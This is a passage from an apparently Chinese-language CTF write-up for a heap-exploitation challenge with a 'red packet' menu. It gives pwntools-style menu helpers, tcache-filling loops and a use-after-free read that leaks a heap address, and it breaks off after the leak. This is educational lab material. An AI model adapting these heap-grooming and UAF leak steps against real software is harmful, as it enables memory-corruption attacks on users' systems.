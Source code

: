 	
	def add(index,chunk_size_index,value):
	    ru('Your input: ')
	    sl('1')
	    ru('Please input the red packet idx: ')
	    sl(str(index))
	    ru('How much do you want?(1.0x10 2.0xf0 3.0x300 4.0x400): ')
	    sl(str(chunk_size_index))
	    ru('Please input content: ')
	    sl(value)
	
	def free(index):
	    ru('Your input: ')
	    sl('2')
	    ru('Please input the red packet idx: ')
	    sl(str(index))
	
	def edit(index,value):
	    ru('Your input: ')
	    sl('3')
	    ru('Please input the red packet idx: ')
	    sl(str(index))
	    ru('Please input content: ')
	    sl(value)
	
	def show(index):
	    ru('Your input: ')
	    sl('4')
	    ru('Please input the red packet idx: ')
	    sl(str(index))
	
## 构造tcache bin
首先我们要获得unsorted bin的chunk，需要先填满0x400大小的tcache bin，填0x300大小的tcache bin只剩1个

	#1.0x10 2.0xf0 3.0x300 4.0x400
	for i in range(7):
	    add(15,4,'Chunk_15')
	    free(15)
	
	for i in range(6):
	    add(14,2,'Chunk_14')
	    free(14)
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/c84cb045a70c47868706c89a5ffab3a4.png)
此时我们利用UAF可以泄露出heap地址

	show(15)
	last_chunk_addr = u64(ru('\x0A').strip('\x0A').ljust(8,'\x00'))
	lg('last_chunk_addr',last_chunk_addr)
	heap_addr = last_chunk_addr - 0x26C0
	lg('heap_addr',heap_addr)
	dbg()
